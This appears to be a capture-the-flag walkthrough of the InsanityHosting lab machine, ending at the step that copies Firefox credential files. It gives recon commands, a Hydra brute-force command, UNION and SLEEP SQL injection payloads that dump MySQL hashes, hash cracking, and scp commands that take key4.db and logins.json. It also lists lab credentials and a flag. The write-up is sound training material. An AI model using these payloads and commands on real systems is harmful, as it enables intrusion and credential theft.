# Proving Grounds Play — InsanityHosting | Full Walkthrough

> **Machine:** InsanityHosting
> **Difficulty:** Intermediate (Linux)
> **Author:** vodanhtieutot
> **Platform:** Offensive Security — Proving Grounds Play

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Service Enumeration — FTP](#3-service-enumeration--ftp)
4. [Web Enumeration — Gobuster Root & Virtual Host Discovery](#4-web-enumeration--gobuster-root--virtual-host-discovery)
5. [Virtual Host Enumeration — www.insanityhosting.vm/news](#5-virtual-host-enumeration--wwwinsanityhostingvmnews)
6. [Credential Discovery — Hydra Brute Force monitoring/index.php](#6-credential-discovery--hydra-brute-force-monitoringindexphp)
7. [Lateral Movement — SquirrelMail & Monitoring Login](#7-lateral-movement--squirrelmail--monitoring-login)
8. [SQL Injection — Monitoring Add New Server](#8-sql-injection--monitoring-add-new-server)
9. [Hash Cracking & Initial Access — SSH as elliot](#9-hash-cracking--initial-access--ssh-as-elliot)
10. [Privilege Escalation — Firefox Credential Decryption → Webmin](#10-privilege-escalation--firefox-credential-decryption--webmin)
11. [Flags & Answers Summary](#11-flags--answers-summary)
12. [Attack Chain Summary](#12-attack-chain-summary)
13. [Tools Used](#13-tools-used)

---

## 1. Overview

**InsanityHosting** is an Intermediate-rated Linux machine on Offensive Security Proving Grounds simulating a web hosting company environment. The attack path involves discovering a hidden virtual host via page source analysis, brute-forcing an internal monitoring portal, exploiting **out-of-band SQL Injection** (results returned via SquirrelMail email reports), cracking a MySQL password hash, then escalating privileges by decrypting **Firefox saved credentials** — leading to `root` access through a **Webmin** service on port 10000 exposed via SSH tunneling.

```
Nmap → Port 21/22/80 (vsftpd 3.0.2, OpenSSH 7.4, Apache 2.4.6 CentOS PHP/7.2.33)
→ FTP anonymous: pub/ empty
→ Browse http://192.168.222.124 → "Hami." page → email hello@insanityhosting.vm
→ Gobuster root → /news, /webmail, /monitoring
→ Browse /news → Bludit blog, mention "Otis" → page source → www.insanityhosting.vm
→ /etc/hosts → gobuster www.insanityhosting.vm/news/ → /welcome, /admin, robots.txt
→ /welcome → "A special thank you to Otis" → username: otis
→ Burp intercept POST /monitoring/index.php → Hydra → otis:123456
→ Login monitoring → "Add New Server" → SQLi in Name field
→ SquirrelMail INBOX receives WARNING email containing SQL output
→ elliot:*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9 → hashcat -m 300 → elliot123
→ SSH elliot@192.168.222.124 → local.txt ✓
→ .mozilla/firefox/esmhp32w.default-default/ → key4.db + logins.json
→ SCP to attacker → firefox_decrypt.py → root:S8Y389KJqWpJuSwFqFZHwfZ3GnegUa @ https://localhost:10000
→ ssh -L 10000:localhost:10000 elliot@192.168.222.124
→ Webmin login root → Command Shell → cat /root/proof.txt ✓
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `192.168.222.124` |
| Machine Name | `insanityhosting` |
| OS | CentOS Linux |
| Open Ports | 21 (vsftpd 3.0.2), 22 (OpenSSH 7.4), 80 (Apache/2.4.6 CentOS PHP/7.2.33) |
| Virtual Host | `www.insanityhosting.vm` / `insanityhosting.vm` |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

Full port scan with `--min-rate 5000` for speed:

```bash
nmap -Pn -p- --min-rate 5000 192.168.222.124
```


Three ports open:

| Port | State | Service |
|---|---|---|
| 21/tcp | open | ftp |
| 22/tcp | open | ssh |
| 80/tcp | open | http |

### 2.2 Service & Script Scan

Aggressive scan against all discovered ports:

```bash
nmap -sC -sV -A -Pn -p 21,22,80 192.168.222.124
```



Key findings:

| Port | Service | Details |
|---|---|---|
| 21/tcp | FTP | vsftpd 3.0.2 — **ftp-anon: Anonymous FTP login allowed (FTP code 230)** |
| 22/tcp | SSH | OpenSSH 7.4 (protocol 2.0) |
| 80/tcp | HTTP | Apache httpd 2.4.6 (CentOS) PHP/7.2.33 |
| | | HTTP Title: **"Insanity – UK and European Servers"** |
| | | HTTP Server: `Apache/2.4.6 (CentOS) PHP/7.2.33` |

> **Note:** Nmap script confirms `ftp-anon: Anonymous FTP login allowed` — test FTP anonymous access first before moving to web enumeration.

---

## 3. Service Enumeration — FTP

### 3.1 Anonymous FTP Login

```bash
ftp 192.168.222.124
# Name: anonymous
# Password: (leave blank)
```



```
Connected to 192.168.222.124.
220 (vsFTPd 3.0.2)
Name: anonymous
230 Login successful.
ftp> ls -la
  drwxr-xr-x  2  0  0  6 Apr 01  2020 pub
ftp> cd pub
ftp> ls -la
  (empty)
```

> **Result:** Anonymous FTP login successful but the `pub/` directory is completely empty. FTP is a dead end at this stage — move on to web enumeration.

---

## 4. Web Enumeration — Gobuster Root & Virtual Host Discovery

### 4.1 Browsing the Web Root

Navigate to `http://192.168.222.124/`:



The page presents a hosting company called **"Hami."** with the tagline "Free Server Monitoring". The contact section reveals email `hello@insanityhosting.vm` — the domain **`insanityhosting.vm`** surfaces for the first time.

### 4.2 Gobuster — Root Directory Scan

```bash
gobuster dir -u http://192.168.222.124 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt
```



Key results:

| Path | Status | Notes |
|---|---|---|
| `index.php` | 200 | Homepage |
| `index.html` | 200 | Homepage |
| `/news` | **301** | Blog — incomplete render when accessed by IP |
| `/webmail` | **301** | Webmail service |
| `/monitoring` | **301** | Monitoring portal — high value target |
| `/img`, `/data`, `/css`, `/js`, `/fonts` | 301 | Static assets |

> Three high-value targets: `/news`, `/webmail`, `/monitoring`. Start with `/news` since it renders incompletely when accessed via IP — a sign it expects a hostname.

### 4.3 Browse /news — Discover Otis and Bludit

Navigate to `http://192.168.222.124/news`:



The company blog page content reads:

> *"Our team have been working hard to create you a free monitoring service for your servers. **A special thank you to Otis**, who led the team."*

Two important findings:
- Staff member named **`Otis`** → username candidate
- *"Powered by **Bludit**"* → CMS in use

### 4.4 Page Source Analysis — Hidden Virtual Host

View page source of `/news` (Ctrl+U):


```html
<!-- Include Favicon -->
<link rel="icon" href="http://www.insanityhosting.vm/news/bl-themes/alternative/img/favicon.png">
<!-- Include CSS Bootstrap file from Bludit Core -->
<link rel="stylesheet" href="http://www.insanityhosting.vm/news/bl-kernel/css/bootstrap.min.css">
<link rel="canonical" href="http://www.insanityhosting.vm/news/">
```

> 🎯 **Critical finding:** Page source reveals the hidden virtual host: **`www.insanityhosting.vm`**. All resources point to this domain instead of the IP — explaining the incomplete render when accessing via IP directly.

### 4.5 Adding the Virtual Host to /etc/hosts

```bash
sudo nano /etc/hosts
# Add:
192.168.222.124    www.insanityhosting.vm    insanityhosting.vm
```


---

## 5. Virtual Host Enumeration — www.insanityhosting.vm/news

### 5.1 Gobuster on the Virtual Host

```bash
gobuster dir -u http://www.insanityhosting.vm/news/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x html,txt,php
```



| Path | Status | Notes |
|---|---|---|
| `/news/welcome` | **200** | Announcement page — contains Otis mention |
| `/news/admin` | **301** | Bludit CMS admin panel |
| `/news/robots.txt` | 200 | No useful information |
| `/news/install.php` | 200 | Confirms CMS installation status |

### 5.2 Bludit Admin Login Panel

Navigate to `http://www.insanityhosting.vm/news/admin/`:



Standard **BLUDIT CMS** login form with Username and Password fields.

### 5.3 install.php — Confirm CMS

Navigate to `http://www.insanityhosting.vm/news/install.php`:



```
Bludit is already installed ;)
```

### 5.4 robots.txt

Navigate to `http://www.insanityhosting.vm/news/robots.txt`:



```
User-agent: *
Allow: /
```

> No restricted paths — nothing useful here.

### 5.5 /welcome — Username Otis Confirmed

Navigate to `http://www.insanityhosting.vm/news/welcome`:



> 🎯 **Username confirmed:** `otis` — the team lead who built the monitoring service. This is the service we will brute-force.

### 5.6 Monitoring Login Portal

Navigate to `http://www.insanityhosting.vm/monitoring/login.php`:



A custom Sign In form at `http://www.insanityhosting.vm/monitoring/login.php`. The gradient UI appears internally developed — typically less hardened than commercial frameworks and a good brute-force candidate.

### 5.7 SquirrelMail Webmail

Navigate to `http://www.insanityhosting.vm/webmail/src/login.php`:


**SquirrelMail version 1.4.22** — a classic PHP webmail client. This inbox will later receive SQL injection output delivered as email reports from the monitoring application.

---

## 6. Credential Discovery — Hydra Brute Force monitoring/index.php

### 6.1 Burp Suite — Analyze the POST Request

Intercept a failed login attempt against the monitoring portal:


```http
POST /monitoring/index.php HTTP/1.1
Host: 192.168.222.124
Content-Type: application/x-www-form-urlencoded

username=dsad&password=asdas
```

Response on wrong credentials: **`302 Found` → `Location: login.php`**

> **Brute-force parameters:**
> - Endpoint: `POST /monitoring/index.php`
> - POST body: `username=^USER^&password=^PASS^`
> - Failure condition: redirect back to `login.php`

### 6.2 Hydra Brute Force

```bash
hydra -l otis -P /usr/share/wordlists/rockyou.txt \
  192.168.222.124 http-post-form \
  "/monitoring/index.php:username=^USER^&password=^PASS^:F=Location\: login.php"
```

![Hydra v9.6 — [80][http-post-form] host: 192.168.222.124, login: otis, password: 123456, 1 of 1 target successfully completed, 1 valid password found](images/image17.png)

```
[80][http-post-form] host: 192.168.222.124   login: otis   password: 123456
1 of 1 target successfully completed, 1 valid password found
```

> 🎯 **Credentials found:**
> - **Username:** `otis`
> - **Password:** `123456`
>
> A trivially weak password on an internal monitoring portal — a critical authentication failure.

---

## 7. Lateral Movement — SquirrelMail & Monitoring Login

### 7.1 Logging into the Monitoring Dashboard

Use `otis:123456` to log in to `http://192.168.222.124/monitoring/index.php`:



The **"INSANITY HOSTING — MONITORING CONTROL"** dashboard displays a **Server Status** table:

| Name | IP Address | Last Checked | Status |
|---|---|---|---|
| Localhost | 127.0.0.1 | 2026-04-01 18:25:01 | UP |

The **"Add New"** button allows adding new servers to monitor — the **Name** field here is the SQL injection entry point.

> **Key observation:** The monitoring app periodically pings each registered server and **sends email status reports to otis@localhost.localdomain via the internal mail server**. This means SQL injection output injected into the Name field will be delivered out-of-band through SquirrelMail.

### 7.2 Credential Reuse — SquirrelMail

Test `otis:123456` on SquirrelMail:


> ✅ **Credential reuse confirmed!** `otis:123456` works on SquirrelMail. INBOX is empty for now — will receive SQL injection results via email reports shortly.

### 7.3 BLUDIT Admin — Login Attempt

Test `otis:123456` at `http://www.insanityhosting.vm/news/admin/`:


> ❌ BLUDIT admin does not accept these credentials — skip.

---

## 8. SQL Injection — Monitoring Add New Server

### 8.1 Inject Payloads into the Name Field

Add new servers with SQL injection payloads in the **Name** field:



Payloads injected one by one via "Add New":

```sql
-- Enumerate database tables:
a" UNION SELECT 1, GROUP_CONCAT(table_name), 3, 4 FROM information_schema.tables WHERE table_schema=database()-- -

-- Dump MySQL user hashes:
a" UNION SELECT 1, GROUP_CONCAT(user, 0x3a, authentication_string), 3, 4 FROM mysql.user-- -

-- Dump application users table:
a" UNION SELECT 1, GROUP_CONCAT(username, 0x3a, password), 3, 4 FROM users-- -

-- Time-based blind confirmation:
tuantuan" AND SLEEP(10)-- -
```

### 8.2 Reading SQLi Output via SquirrelMail

Check SquirrelMail INBOX for incoming WARNING emails:

**Email 1** — Confirms blind SQLi works (tuantuan SLEEP test):


```
Subject: WARNING
From: monitor@localhost.localdomain
To: otis@localhost.localdomain

tuantuan is down. Please check the report below for more information.

ID, Host, Date Time, Status
74,tuantuan,"2026-04-01 18:29:01",1
76,tuantuan,"2026-04-01 18:30:01",1
...
```

**Email 2** — UNION SELECT result from `mysql.user`:


```
a" UNION SELECT 1, GROUP_CONCAT(user, 0x3a, authentication_string), 3, 4 FROM
mysql.user-- - is down. Please check the report below for more information.

ID, Host, Date Time, Status
1,"root:,root:,root:,root:,:,:,elliot:*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9",3,4
```

> 🎯 **MySQL hash for user `elliot` successfully dumped:**
> ```
> *5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9
> ```
> This is a MySQL native password hash (format: `*` + SHA1(SHA1(password))). Use `hashcat -m 300` to crack it.

---

## 9. Hash Cracking & Initial Access — SSH as elliot

### 9.1 Crack MySQL Hash with Hashcat

```bash
echo '5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9' > hash.txt
hashcat -m 300 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 300 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
```



```
5a5749f309cac33b27ba94ee02168fa3c3e7a3e9:elliot123
```

> 🎯 **Credentials recovered:**
> - **Username:** `elliot`
> - **Password:** `elliot123`

### 9.2 SSH Login & User Flag

```bash
ssh elliot@192.168.222.124
# Password: elliot123
```

![SSH elliot@192.168.222.124 — login successful, [elliot@insanityhosting ~]$, dir → local.txt, cat local.txt → a6b95e060e4e17f3415a21e66d05af90](images/image25.png)

```
elliot@192.168.222.124's password:
[elliot@insanityhosting ~]$ dir
local.txt
[elliot@insanityhosting ~]$ cat local.txt
a6b95e060e4e17f3415a21e66d05af90
```

> 🚩 **local.txt (User Flag):** `a6b95e060e4e17f3415a21e66d05af90`

---

## 10. Privilege Escalation — Firefox Credential Decryption → Webmin

### 10.1 Enumerate Home Directory — Spot .mozilla

```bash
[elliot@insanityhosting ~]$ ls -la
```



```
lrwxrwxrwx. 1 root   root     9 Aug 16  2020 .bash_history → /dev/null
drwx------. 5 elliot elliot  66 Aug 16  2020 .mozilla          ← !!!
drwx------. 2 elliot elliot  25 Aug 16  2020 .ssh
-rw-r--r--  1 elliot elliot  33 Apr  1 18:56 local.txt
```

> 🎯 **Key finding:** A `.mozilla` directory exists — Firefox stores saved passwords in `key4.db` and `logins.json` inside the profile folder. These can be decrypted offline.

### 10.2 Navigate into the Firefox Profile

```bash
[elliot@insanityhosting ~]$ cd .mozilla
[elliot@insanityhosting .mozilla]$ dir
extensions  firefox  systemextensionsdev
```


```bash
[elliot@insanityhosting .mozilla]$ cd firefox
[elliot@insanityhosting firefox]$ ls -la
# → profile: esmhp32w.default-default

[elliot@insanityhosting firefox]$ cd esmhp32w.default-default
[elliot@insanityhosting esmhp32w.default-default]$ ls -la | grep -E "logins.json|key"
```


```
-rw-------. 1 elliot elliot 294912 Aug 16  2020 key4.db
-rw-------. 1 elliot elliot    575 Aug 16  2020 logins.json
```

> Profile in use: **`esmhp32w.default-default`**. Two files needed:
> - `key4.db` — NSS key database (holds the encryption master key)
> - `logins.json` — Encrypted login credential entries

### 10.3 Exfiltrate Files via SCP

From the attacker machine, download both files:

```bash
scp elliot@192.168.222.124:/home/elliot/.mozilla/firefox/esmhp32w.default-default/key4.db .
scp elliot@192.168.222.124:/home/elliot/.mozilla/firefox/esmhp32w.default-default/logins.json .
```

